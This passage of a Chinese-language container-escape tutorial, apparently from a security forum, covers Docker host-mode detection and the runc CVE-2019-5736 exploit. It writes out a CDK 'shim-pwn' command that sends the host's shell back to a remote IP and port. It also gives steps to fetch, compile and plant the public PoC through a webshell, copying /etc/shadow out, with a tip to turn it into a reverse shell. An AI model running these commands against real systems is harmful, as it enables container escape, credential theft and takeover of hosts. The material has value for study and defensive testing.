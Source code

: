     判断是否使用host模式
    ============
    
    cat /proc/net/unix | grep 'containerd-shim'

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-dc8bfe8e82b522a1acc91ae6083a3c7f49c74700.png)

```php
#反弹宿主机的shell到远端服务器
./cdk_linux_386 run shim-pwn reverse 192.168.238.159 4455
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-f95ea312d700aaa0c1d084f9f8c8f55a07438497.png)

##### CVE-2019-5736

当runc动态编译时，会从容器镜像中载入动态链接库，导致加载恶意动态库；当打开/prco/self/exe即runc时，会执行恶意动态链接库中的恶意程序，由于恶意程序继承runc打开的文件句柄，可以通过该文件句柄替换host上的runc。

此后，再次执行runc相关的命令，则会产生逃逸。

版本漏洞：

docker version &lt;=18.09.2

RunC version &lt;=1.0-rc6

利用过程：

```php
  #下载POC
    https://github.com/Frichetten/CVE-2019-5736-PoC
    #编译
    CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

利用成功是将/etc/shadow文件复制到/tmp/目录下

```php
#将编译的main复制到docker容器中，实战是用WebShell上传
docker cp main name:/home
cd /home/
chmod 777 main
./main
#此时等管理员进入容器将触发：
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-4d7809f1aa84b6befe6667f13065e50c4727f439.png)  
或将第16行改为反弹Shell，获得宿主机权限。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-08621042cc991c56d7086320c03a7d4afc46d69f.png)

#### Capabilities

Capabilities是Linux一种安全机制，是在Linux内核2.2之后引入的，主要作用是权限更细粒度的控制。容器社区一直在努力将纵深防御、最小权限等理念和原则落地。

目前Docker已经将Capabilities黑名单机制改为了默认禁止所有Capabilities，再以白名单方式赋予容器运行所需的最小权限。

查看Capabilities
==============
